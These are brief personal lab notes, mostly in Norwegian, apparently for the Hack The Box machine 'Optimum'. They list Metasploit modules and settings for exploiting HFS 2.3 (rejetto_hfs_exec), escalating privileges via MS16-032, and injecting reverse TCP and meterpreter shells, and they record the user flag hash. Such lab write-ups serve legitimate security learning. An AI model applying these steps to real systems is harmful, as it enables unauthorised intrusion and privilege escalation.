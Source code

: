 ## optimum 10.10.10.8

windows server 2012 x64

nmap port 80

hfs 2.3 server. finnes exploit

kjørte i metasploit exploit/windows/http/rejetto\_hfs\_exec

sett srvhost til samme som lhost men ikke srvport

husk å sette lhost også

`use post/multi/manage/shell_to_meterpreter`

user.txt **d0c39409d7b994a9a1389ebf38ef5f73**

MS16-032 SYSTEM Privilege Escalation

prøvd å laste opp ps1-script og får kjørt det, men prosessen ligger i bakgrunnen.- sjekk ps kommando

må finne en måte å få reverse shell fra powershellet

`use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

tror denne er riktig.

`use post/multi/recon/local_exploit_suggester`**  **

```
use exploit/windows/local/payload_inject
```

```
set payload windows/powershell_reverse_tcp
```

Import-Module ./lol.ps1

Invoke-MS16-032

gjøre fra 32 til 64 bit shell

`use windows/local/payload_inject`

`set payload windows/x64/meterpreter/reverse_tcp`







